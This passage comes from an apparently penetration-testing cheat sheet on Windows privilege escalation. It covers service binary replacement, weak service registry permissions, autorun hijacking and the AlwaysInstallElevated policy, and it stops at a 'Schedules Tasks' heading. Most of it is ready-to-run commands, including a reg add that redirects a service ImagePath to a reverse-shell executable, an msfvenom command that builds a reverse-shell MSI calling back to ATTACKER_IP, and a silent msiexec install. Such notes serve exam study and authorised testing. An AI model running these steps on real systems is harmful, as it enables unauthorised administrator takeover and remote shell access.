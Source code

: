 Replace the executable in the service folder and start the service

```bash
sc start SERVICE_NAME
```

#### Weak Registry permissions

Look for the following in Winpeas services info output

```
HKLM\<service> (Interactive [FullControl])  #This means we can edit the registry value
```

```bash
accesschk /acceptula -uvwqk HKLM\System\CurrentControlSet\Services\SERVICE  #Check for KEY_ALL_ACCESS
#Service Information from regedit, identify the variable which holds the executable
reg query HKLM\SYSTEM\CurrentControlSet\services\SERVICE
reg add HKLM\SYSTEM\CurrentControlSet\services\SERVICE /v ImagePath /t REG_EXPAND_SZ /d C:\temp\reverse.exe /f  #Imagepath is the variable here
net start SERVICE
```

#### DLL Hijacking

_Reference for DLL Hijacking techniques_

#### Autorun

```bash
#For checking, it will display some information with file-location
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
#Check the location is writable
accesschk.exe -wvu "C:\PATH\TO\FILE"  #returns FILE_ALL_ACCESS
#Replace the executable with the reverseshell and we need to wait till Admin logins, then we get shell
```

#### AlwaysInstallElevated

```bash
#For checking, it should return 1 or 0x1
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

#Creating a reverseshell in msi format
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=PORT --platform windows -f msi -o reverse.msi

#Execute and get shell
msiexec /quiet /qn /i reverse.msi
```

#### Schedules Tasks
